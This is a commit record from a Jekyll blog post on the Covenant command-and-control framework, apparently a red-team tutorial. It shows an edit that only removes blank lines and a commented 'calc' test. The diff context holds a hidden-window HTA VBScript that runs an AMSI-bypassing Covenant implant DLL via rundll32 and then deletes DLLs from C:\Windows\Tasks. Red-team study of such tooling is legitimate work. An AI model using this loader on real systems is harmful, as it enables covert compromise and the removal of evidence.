

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from _posts/2021-07-01-Entering-the-Covenant-C2C.md, in a window 1280 px wide and 900 px high, scrolled down 18012 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2021-07-01-Entering-the-Covenant-C2C.md

```diff
--- a/_posts/2021-07-01-Entering-the-Covenant-C2C.md
+++ b/_posts/2021-07-01-Entering-the-Covenant-C2C.md
@@ -640,8 +640,6 @@
 <HTA:APPLICATION icon="#" WINDOWSTATE="minimize" SHOWINTASKBAR="no" SYSMENU="no"  CAPTION="no" />
 <script type="text/vbscript">
 
-
-
 ' ===================================
 ' Download Clause
 ' Tested with binaries - works!
@@ -693,7 +691,6 @@
 Dim sh
 Set sh = CreateObject("Wscript.Shell")
 Call sh.Run("rundll32 covenant-DLL-noAmsi.dll,MonkEntry")
-'sh.Run("calc")
 target_folder = "C:\Windows\Tasks"
 Set fs = CreateObject("Scripting.Filesystemobject")
 fs.DeleteFile( target_folder & "\*.dll" )
```
